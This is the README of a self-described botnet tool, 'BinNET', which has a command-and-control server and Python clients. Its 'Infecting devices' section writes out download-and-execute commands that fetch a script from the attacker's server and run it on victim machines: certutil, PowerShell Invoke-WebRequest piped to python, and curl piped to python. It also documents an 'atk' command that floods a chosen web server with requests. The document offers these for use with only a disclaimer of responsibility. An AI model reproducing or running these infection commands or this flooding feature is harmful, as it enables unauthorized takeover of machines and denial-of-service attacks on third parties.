 # DISCLAIMER: I AM NOT RESPONSIBLE FOR ANY DAMAGE CAUSED BY THIS TOOL.

# BinNET

This is a very simple botnet with a CnC server, made by me. Feel free to change anything!

## Requirements
- requests: `pip install requests`
The remaining libraries are included with Python.

## Usage
Run `python server.py` to start listening for incoming connections. It listens by default in port 57849.

To connect machines to your server, you'll first need to change the variable `ADDRESS` in `client.py`. In case you want 
to run this in your own network, replace this variable with your private IP address. If your client machines are outside
your intranet, change the variable's value to your server's public IP address. Every time a client connects to the 
server, it will print a message with the client's IP address.

## Infecting devices

Windows:
```
CMD:
certutil.exe -urlcache -split -f "http(s)://yourip/yourfile" C:\Windows\Temp & python C:\Windows\Temp\yourfile

Downloads the file to the temp directory and runs it. The machine needs to have Python installed.

PowerShell:
Invoke-WebRequest -Uri http://localhost/client.py | Select-Object -ExpandProperty Content | python

Gets the script from your server, and runs it with Python
```

GNU/Linux:
```
curl -s -X GET http(s)://yourip/yourfile | python
```
This reads the file from your server and runs it with Python. It can also run in Windows if the machine has curl installed.

If you are connected to an intranet in the 192.168.1.0/24 range, it will return your private IP. Else, it will return your public IP. I'm currently working on making it work with all private IPs.

## Available commands(i'll update them)
```
list: lists all machines connected.

atk [host] [port] <threads>: sends multiple requests to the host and port specified. Currently, it only works on 
web servers. Default threads: 100.

print [text]: prints a text in all connected machines.

help: shows this help message, but inside the program.
```

PD: the code is not commented, I'm very lazy.

